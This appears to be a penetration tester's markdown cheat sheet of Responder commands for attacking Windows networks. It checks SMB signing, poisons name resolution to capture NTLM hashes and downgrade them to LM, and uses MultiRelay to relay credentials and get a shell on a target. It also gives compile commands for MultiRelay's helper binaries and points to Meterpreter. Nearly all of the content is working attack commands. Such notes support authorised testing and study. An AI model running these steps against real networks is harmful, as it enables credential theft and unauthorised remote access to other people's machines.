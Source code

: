 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* change `/etc/responder/Responder.conf`
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf
1. Run responder until hashes is received and close
2. Run Multirelay
3. While MultiRelay is running, run again responder

Meterpreter shell:
* see Metasploit.md from this section
